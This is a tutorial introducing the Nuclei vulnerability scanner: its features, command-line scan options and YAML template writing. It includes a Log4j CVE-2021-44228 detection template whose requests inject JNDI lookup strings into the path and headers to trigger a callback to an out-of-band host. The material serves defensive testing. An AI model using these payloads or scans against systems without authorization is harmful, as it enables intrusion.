 # Introducing Nuclei: A Fast and Customizable Vulnerability Scanner

## Introduction

[Nuclei](https://github.com/projectdiscovery/nuclei) is an open-source, fast, and customizable vulnerability scanner developed by [ProjectDiscovery](https://github.com/projectdiscovery/). It is designed to send requests across targets based on predefined templates, enabling efficient and accurate vulnerability detection with minimal false positives. [Nuclei](https://github.com/projectdiscovery/nuclei) supports scanning for various protocols, including TCP, DNS, HTTP, SSL, File, Whois, and Websocket.

## Some of the Key Features

1. Template-based scanning: Nuclei uses YAML-based templates to define scanning logic, making it highly extensible and customizable.

2. Multi-protocol support: Enables scanning across various network protocols and services.

3. Fast and efficient: Optimized for speed, allowing rapid scanning of large numbers of hosts.

4. Low false positives: Template-based approach helps minimize false positive results.

5. Community-driven: Large repository of community-contributed templates for detecting various vulnerabilities.

6. Easy integration: Can be easily integrated into CI/CD pipelines and other automated security workflows.

## Usage Examples

### Basic Scanning

To scan a single target using Nuclei:

```bash
nuclei -u http://10.6.6.23
```

To scan multiple targets from a file:

```bash
nuclei -l targets.txt
```

### Using Specific Templates

Scan with particular templates:

```bash
nuclei -u https://example.com -t cves/ -t exposures/
```

### Filtering Templates

Scan using templates with specific tags:

```bash
nuclei -u https://example.com -tags cve,oast
```

Exclude certain tags:

```bash
nuclei -u https://example.com -etags dos,fuzz
```

### Output Formatting

Generate JSON output:

```bash
nuclei -u https://example.com -json-output results.json
```

### Rate Limiting

Limit requests per second:

```bash
nuclei -u https://example.com -rate-limit 100
```

## Creating Nuclei Templates

Nuclei templates are YAML files that define the scanning logic. Here's a basic structure of a Nuclei template:

```yaml
id: example-template
info:
  name: Example Vulnerability Check
  author: YourName
  severity: medium
  description: Checks for an example vulnerability
  
requests:
  - method: GET
    path:
      - "{{BaseURL}}/vulnerable-endpoint"
    matchers:
      - type: word
        words:
          - "vulnerable string"
```

Key components of a template:

1. `id`: Unique identifier for the template
2. `info`: Metadata about the template
3. `requests`: Defines the HTTP requests to be made
4. `matchers`: Specifies conditions to identify vulnerabilities

### Example: CVE Detection Template

Here's an example template for detecting CVE-2021-44228 (Log4j vulnerability):

```yaml
id: CVE-2021-44228

info:
  name: Apache Log4j RCE
  author: pdteam
  severity: critical
  description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker-controlled LDAP and other JNDI related endpoints.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228

requests:
  - raw:
      - |
        GET /${jndi:ldap://{{interactsh-url}}} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: ${jndi:ldap://{{interactsh-url}}}
        Referer: ${jndi:ldap://{{interactsh-url}}}

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"
          - "http"

      - type: regex
        part: interactsh_request
        regex:
          - '([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'
```

This template sends requests with JNDI lookup strings in various HTTP headers and checks for DNS or HTTP callbacks to detect the Log4j vulnerability[8].

## Best Practices for Template Creation

1. Use clear and descriptive template IDs and names
2. Include accurate metadata (author, severity, description)
3. Utilize dynamic variables like `{{BaseURL}}` for flexibility
4. Implement precise matchers to reduce false positives
5. Test templates thoroughly before submission
6. Follow the [community template contributions](https://github.com/projectdiscovery/nuclei-templates/tree/main/dns)